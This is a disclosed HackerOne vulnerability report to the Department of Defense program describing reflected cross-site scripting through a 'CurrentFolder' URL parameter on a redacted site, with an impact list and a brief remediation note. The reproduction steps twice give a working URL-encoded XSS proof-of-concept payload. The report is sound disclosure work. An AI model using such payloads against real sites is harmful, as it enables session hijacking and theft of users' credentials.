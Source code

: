 # [████████] RXSS via "CurrentFolder" parameter

## Report Details
- **Report ID**: 1624267
- **URL**: https://hackerone.com/reports/1624267
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2022-07-04T14:06:12.829Z
- **Disclosed**: 2023-12-21T17:36:10.446Z

## Reporter
- **Username**: qu1nten
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: deptofdefense

## Vulnerability Information
The website █████ is vulnerable to reflected cross-site scripting via the `CurrentFolder` parameter.

## How to reproduce?

Visit: https://██████/landpower/resources.aspx?Directory=/20/&ParentID=27&CurrentFolder=%3Cimg%20src%20onerror=alert(domain)%3EResources&ID=17263

███

## Resources:

https://portswigger.net/web-security/cross-site-scripting

## Impact

An attacker who exploits a cross-site scripting vulnerability is typically able to:

* Impersonate or masquerade as the victim user.
* Carry out any action that the user is able to perform.
* Read any data that the user is able to access.
* Capture the user's login credentials.
* Perform virtual defacement of the web site.
* Inject trojan functionality into the web site.

## System Host(s)
████

## Affected Product(s) and Version(s)


## CVE Numbers


## Steps to Reproduce
Visit: https://██████████/landpower/resources.aspx?Directory=/20/&ParentID=27&CurrentFolder=%3Cimg%20src%20onerror=alert(domain)%3EResources&ID=17263

## Suggested Mitigation/Remediation Actions
Escape user input



## Attachments
No attachments

